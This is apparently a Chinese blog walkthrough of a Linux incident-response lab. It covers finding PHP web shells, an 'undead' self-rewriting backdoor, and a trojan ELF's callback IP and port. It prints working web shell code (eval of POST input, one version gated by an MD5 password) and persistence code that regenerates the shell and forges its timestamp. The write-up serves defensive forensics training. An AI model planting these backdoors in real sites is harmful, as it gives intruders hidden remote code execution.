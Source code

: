 # 第一章-应急响应-Linux入侵排查

  
  
&lt;!--more--&gt;  
1.web目录存在木马，请找到木马的密码提交  
2.服务器疑似存在不死马，请找到不死马的密码提交  
3.不死马是通过哪个文件生成的，请提交文件名  
4.黑客留下了木马文件，请找出黑客的服务器ip提交  
5.黑客留下了木马文件，请找出黑客服务器开启的监端口提交  
在`/var/www/html`目录下面，发现可疑文件`1.php .shell.php`  
```php  
#1.php  
&lt;?php eval($_POST[1]);?&gt;  
  
#.shell.php  
&lt;?php if(md5($_POST[&#34;pass&#34;])==&#34;5d41402abc4b2a76b9719d911017c592&#34;){@eval($_POST[cmd]);}?&gt;  
```  
解密之后，得`hello`  
在`index.php`发现不死马  
```php  
$file = &#39;/var/www/html/.shell.php&#39;;  
$code = &#39;&lt;?php if(md5($_POST[&#34;pass&#34;])==&#34;5d41402abc4b2a76b9719d911017c592&#34;){@eval($_POST[cmd]);}?&gt;&#39;;  
file_put_contents($file, $code);  
system(&#39;touch -m -d &#34;2021-01-01 00:00:01&#34; .shell.php&#39;);  
usleep(3000);  
```  
存在`shell(1).elf`文件，判断为木马文件，放入到微步进行分析，得到ip 10.11.55.21  
执行`shell(1).elf`，查看去连接了远程ip的哪个端口  
`netstat -antlp| grep 10.11.55.21`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202403151328799.png)

---

> Author: N1Rvana  
> URL: http://localhost:1313/%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-linux%E5%85%A5%E4%BE%B5%E6%8E%92%E6%9F%A5/  

